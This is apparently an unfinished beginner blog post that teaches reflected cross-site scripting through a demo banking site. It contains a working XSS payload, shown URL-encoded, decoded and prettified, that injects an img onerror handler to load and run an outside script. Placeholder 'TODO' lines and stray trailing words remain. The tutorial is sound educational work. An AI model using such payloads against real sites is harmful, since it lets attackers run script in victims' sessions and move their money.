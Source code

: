 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
slug: "/blog/xss/"
img:
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

![The Definitely Secure Bank logo.](./media-link/csrf-post/dsb.svg)

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.victorzhou.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

TODO

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Try searching for anything:

TODO

Interesting.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[Claim your free iPhone](
https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this:

TODO

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

TODO

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

TODO

Notice how the search query ("TODO") is echoed back onto the page: _Unfortunately, no results were found for **TODO**_. What if our search query was a valid HTML string, like `html›<a href="https://victorzhou.com">test</a>`?

TODO

Woah. That seems insecure, doesn't it?

Let's look at that specific attack from earlier. The attacker's link linked to a URL of this format:

https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE

Aha! That's a link to the DSB search results page. The value of `SEARCH_QUERY_HERE` was the following string:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

Looks like nonsense, right? Turns out, when you [URL decode](https://www.quora.com/What-is-URL-encoding-and-decoding) this, you get:

```
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

Seems a little more familiar now, doesn't it? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's what the `onerror` code looks like after prettify-ing it:

```js
const a = document.createElement('script');
a.src = 'https://victorzhou.com/xss-demo.js';
document.body.appendChild(a);
```



persistent

reflected
